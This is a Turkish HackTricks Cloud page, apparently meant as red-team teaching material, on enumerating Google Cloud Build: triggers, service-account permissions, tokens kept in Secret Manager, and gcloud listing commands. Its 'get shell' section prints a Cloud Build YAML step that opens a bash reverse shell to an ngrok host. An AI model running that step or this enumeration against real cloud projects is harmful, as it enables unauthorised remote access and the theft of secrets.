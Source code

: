 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hacklemeyi öğrenin!</summary>

HackTricks'ı desteklemenin diğer yolları:

- **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
- [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
- [**PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
- 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da takip edin.
- **Hacking püf noktalarınızı paylaşarak** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek katkıda bulunun.

</details>

## Temel Bilgiler

Google Cloud Build, **yazılım derleme** ve sürüm süreçlerini otomatikleştiren, **kaynak kod depolarıyla entegre olan** ve geniş bir programlama dilini destekleyen yönetilen bir CI/CD platformudur. Geliştiricilere kodu otomatik olarak derleme, test etme ve dağıtma olanağı sağlarken derleme adımlarını ve iş akışlarını özelleştirmelerine olanak tanır.

Her Cloud Build Tetikleyicisi, bir **Cloud Deposu ile ilişkilidir veya harici bir depo ile doğrudan bağlantılıdır** (Github, Bitbucket ve Gitlab).

{% hint style="success" %}
Buradan veya Bulut Depolarından Github/Bitbucket belirteci çalmak için herhangi bir yol göremedim çünkü depo indirildiğinde [https://source.cloud.google.com/](https://source.cloud.google.com/) URL'si üzerinden erişilir ve Github istemci tarafından erişilmez.
{% endhint %}

### Olaylar

Cloud Build, şu durumlarda tetiklenebilir:

- **Bir şubeye itme**: Şubeyi belirtin
- **Yeni bir etiket itme**: Etiketi belirtin
- **Çekme isteği**: PR'yi alan şubeyi belirtin
- **Manuel Çağrı**
- **Pub/Sub mesajı**: Konuyu belirtin
- **Web kancası olayı**: Bir HTTPS URL'si açığa çıkaracak ve istek bir sırla kimlik doğrulaması yapmalı

### Yürütme

3 seçenek vardır:

- Yürütülecek komutları belirten bir yaml/json. Genellikle: `/cloudbuild.yaml`
- Web konsolunda ve cli'de "içe" belirtilebilecek tek seçenek
- En yaygın seçenek
- Kimlik doğrulamasız erişim için ilgili
- Derlemek için bir **Dockerfile**
- Derlemek için bir **Buildpack**

### SA İzinleri

**Hizmet Hesabı, `cloud-platform` kapsamına sahiptir**, bu nedenle **tüm ayrıcalıkları kullanabilir.** **SA belirtilmediğinde** (örneğin, gönderme yapılırken) **varsayılan SA** `<proj-numarası>@cloudbuild.gserviceaccount.com` **kullanılacaktır.**

Varsayılan olarak hiçbir izin verilmez ancak bazı izinler vermek oldukça kolaydır:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Onaylar

Bir Cloud Build'in **derleme yürütümleri için onay gerektirmesi** mümkündür (varsayılan olarak devre dışı bırakılmıştır).

### Bağlantılar ve Depolar

Bağlantılar şunlar üzerinden oluşturulabilir:

- **GitHub:** Github belirteci almak için izin isteyen bir OAuth iletişim kutusu gösterecektir ve bu, **Secret Manager içinde saklanacak bir Github belirteci** almak için istenecektir.
- **GitHub Enterprise:** Bir **GithubApp** yüklemesi yapmanızı isteyecektir. GitHub Enterprise ana bilgisayarınızdan bir **kimlik doğrulama belirteci** oluşturulacak ve bu proje içinde bir **Secret Manager** sırrı olarak saklanacaktır.
- **GitLab / Enterprise:** **API erişim belirteci ve Okuma API erişim belirteci** sağlamanız gerekecektir ve bunlar **Secret Manager'da saklanacaktır.**

Bir bağlantı oluşturulduğunda, Github hesabının erişimine sahip olduğu depoları **bağlamak için kullanılabilir.**

Bu seçenek, aşağıdaki düğme aracılığıyla kullanılabilir:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Bu yöntemle bağlanan depoların yalnızca 2. nesil kullanarak Tetikleyicilerde **mevcut olduğunu unutmayın.**
{% endhint %}

### Bir Depoyu Bağlama

Bu bir **`bağlantı`** ile aynı değildir. Bu, **Github veya Bitbucket** deposuna erişmenin **farklı** yollarını sağlar ancak **bir bağlantı nesnesi oluşturmaz, ancak bir depo nesnesi (1. nesil) oluşturur.**

Bu seçenek, aşağıdaki düğme aracılığıyla kullanılabilir:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Depolama

Bazen Cloud Build, tetikleyici için dosyaları saklamak için **yeni bir depolama oluşturacaktır**. Bu örneğin, GCP'nin sunduğu örnekte olduğu gibi gerçekleşir:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### Kabuk Al

[security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) adında bir Depolama kovası oluşturuldu ve kullanılacak dosyaları içeren bir `.tgz` dosyasını depolamak için kullanılıyor.
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### Sıralama

**Yapılandırma ve günlüklerde hassas bilgiler bulabilirsiniz**.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Yetki Yükseltme

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### Kimlik Doğrulamasız Erişim

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### Saldırı Sonrası Aşama

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}
